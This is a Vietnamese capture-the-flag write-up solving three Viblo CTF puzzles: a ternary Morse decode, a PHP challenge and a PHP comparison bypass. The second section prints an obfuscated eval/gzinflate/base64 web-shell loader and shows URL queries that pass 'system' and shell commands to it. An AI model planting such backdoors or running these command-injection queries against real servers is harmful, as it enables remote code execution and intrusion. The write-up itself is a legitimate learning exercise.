


## [3 Numbers](https://ctf.viblo.asia/puzzles/3-numbers-zchx5q4xl4n "3 Numbers")

> Some friend gave me this. Can you help me decode it?
> 
>`1202010210201201021011200200021121112010202012010210102012102021000200121200210002021210112111200121200002111200121102000021211120010200212001020020102000212`

3 số `1, 2, 0` có thể là đại diện cho 3 ký tự khác nhau. Minh nghĩ tới mã morse gồm dấu `.`, `-` và khoảng trắng. Nhìn có vẻ số 2 là khoảng trắng rồi. Thay số 1 thành `-` và số 0 thành `.` ta được dãy 
`- . .-. -. .- .-. -.-- .. ... -- --- .-. . .- .-. -.-. .- -. . -... ..- - .. -... . - -.-- --- ..- - .... --- ..- --. .... - --- ..-. .. - ..-. .. .-. ... -`  

Dùng tool dịch mã thành được **`TERNARYISMOREARCANEBUTIBETYOUTHOUGHTOFITFIRST`**

## [phpinfo.php](https://ctf.viblo.asia/puzzles/phpinfo-php-vvyjdop2j3v "phpinfo.php")

> This will help you get the flag at [http://172.104.49.143:1302](http://172.104.49.143:1302/)
> 
> `<?php phpinfo();@extract($_REQUEST);eval("\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5F\x64\x65\x63\x6F\x64\x65\x28'TZFJk6JAFIT/S196JurQrAXEnNgVQQQFxPACxaIgNItgWb++6bEjZg4ZGZn5vdPL5+T26+2MIX/GAlycXqSeMSMuLiydvLi0SF8EX9s3I3Cvm78c89Oxr45dOHbZeWPJPxz83v7LjPiOT4qdcpZsrI8fVzynYRjA3mxgbKoPZ7P2T6tKJ4HccSVRabkoByDFh6wzJJpB7RaTuZsR62IHBNuZgl1JcXwIA6crMte17vbKubv1AUbebTUMw0g4kKaExOzUHG3bcOpuLPOmdQHKJxqQZGuxYHZVKKYMztppPnlRtMV4LPQE40qYR+gCg2VwYXdrObF63tTrq7bfirwrTmV1uwxqRa5Uu9IiREq5WBn38XEIS87JdPOxB3l/p0qJoJhXHBwbNq8EaZjxADLPmo20gF1rGvhMg8FJjcAikNa5vBOSW4P46UrbT4A+6qsyo/wo7KSc9wBXEM3qL+qI/F5IdNWlePNgMVCqPq2Gnjo/kTac3zoeB+lJlr1WdUsfPL0Y5UC0dpoW13QSbU6w9vwyfR6yhqb6xFRaFIYVDVDNy+b8idtaHp2yj9HFdVjW8htz3Y7QKbL9Pu2bqN9J4MTN78tHpX9ilbfff74A'\x29\x29\x29\x3B");echo($It($works));`

Từ tên bài cho thấy phải check trang http://172.104.49.143:1302/phpinfo.php.

Tìm hiểu cơ bản về lệnh eval của php thì thấy 
>  // ảnh eval

Tất cả chuỗi bên trong eval sẽ thực thi như 1 lệnh. Lệnh `echo($It($works))` là 1 function và để function này chạy thì $It phải là system và $works là câu lệnh để cái system đó hoạt động. Đang chưa biết câu lệnh như thế nào nên mạnh dạn điền query vào URL http://172.104.49.143:1302/phpinfo.php?It=system&works=ls (ls để liệt kê tất cả). Kéo xuống cuối trang thì thấy 

`It worksngoc_trinh_is_sexy phpinfo.php phpinfo.php`

Lúc này thay câu lệnh ls thành `cat ngoc_trinh_is_sexy` (mở cái file đó) ta được query http://172.104.49.143:1302/phpinfo.php?It=system&works=cat%20ngoc_trinh_is_sexy và ra flag :v 

## [Enough PHP magic](https://ctf.viblo.asia/puzzles/enough-php-magic-qtd1odoekwl "Enough PHP magic")

> You dont say? [http://172.104.49.143:1307](http://172.104.49.143:1307/)

Thử thêm path /index.php thì nó chính là trang input này nên thử vô path /index.phps vì phần rank E cũng có 1 bài check phps

>

Ta sẽ có được flag khi mà 2 biến `attempt` và `combination` bằng nhau, mà biến `combination` được lấy từ `filename`. Nhưng quan trọng là `filename` nó không có trong resource nên `combination` sẽ trả về giá trị `null`. Lúc này để 2 biến bằng nhau thì `attempt` cũng phải rỗng nên ta có `params: ?attempt=&filename=a` và ra được flag